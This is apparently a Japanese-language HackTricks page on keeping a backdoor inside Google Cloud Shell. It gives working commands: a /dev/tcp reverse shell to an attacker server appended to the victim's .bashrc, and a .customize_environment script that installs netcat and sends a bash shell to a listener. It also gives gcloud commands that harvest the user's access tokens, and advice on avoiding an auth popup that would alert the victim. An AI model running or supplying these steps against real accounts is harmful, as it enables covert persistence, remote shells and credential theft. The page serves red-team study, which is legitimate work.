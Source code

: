 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

詳細については、次を確認してください：

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) は、関連するコストなしにブラウザから直接クラウドリソースへのコマンドラインアクセスを提供します。

**ウェブコンソール**から、または**`gcloud cloud-shell ssh`**を実行することでGoogleのCloud Shellにアクセスできます。

このコンソールには攻撃者にとって興味深い機能があります：

1. **Google Cloudにアクセスできる任意のGoogleユーザー**は、完全に認証されたCloud Shellインスタンスにアクセスできます（サービスアカウントは、組織のオーナーであってもアクセス可能です）。
2. そのインスタンスは、**活動がない場合、少なくとも120日間はホームディレクトリを維持します**。
3. そのインスタンスの活動を**組織が監視する能力はありません**。

これは基本的に、攻撃者がユーザーのホームディレクトリにバックドアを設置でき、ユーザーが少なくとも120日ごとにGC Shellに接続する限り、バックドアは生き残り、攻撃者は実行するたびにシェルを取得できることを意味します：

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

ホームフォルダには、**`.customize_environment`** という別のファイルがあり、存在する場合はユーザーが **cloud shell** にアクセスするたびに **実行されます**（前の技術と同様に）。前のバックドアや、以下のようなものを挿入して、ユーザーが「頻繁に」cloud shell を使用している限り、持続性を維持します：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
重要な点は、**認証を必要とするアクションが初めて実行されるとき**、ユーザーのブラウザにポップアップ認証ウィンドウが表示されることです。このウィンドウは、コマンドを実行する前に受け入れられなければなりません。予期しないポップアップが表示されると、疑念を引き起こし、使用している永続性の方法が危険にさらされる可能性があります。
{% endhint %}

これは、クラウドシェルから `gcloud projects list` を実行したときのポップアップ（攻撃者として）で、ブラウザのユーザーセッションで表示されます：

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

ただし、ユーザーがクラウドシェルを積極的に使用している場合、ポップアップは表示されず、**ユーザーのトークンを収集することができます**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH接続の確立方法

基本的に、これらの3つのAPIコールが使用されます：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (ローカルで作成した公開鍵を追加します)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (インスタンスを起動します)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (Google Cloud ShellのIPを教えてくれます)

さらに詳しい情報は、[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)で見つけることができます。

## 参考文献

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

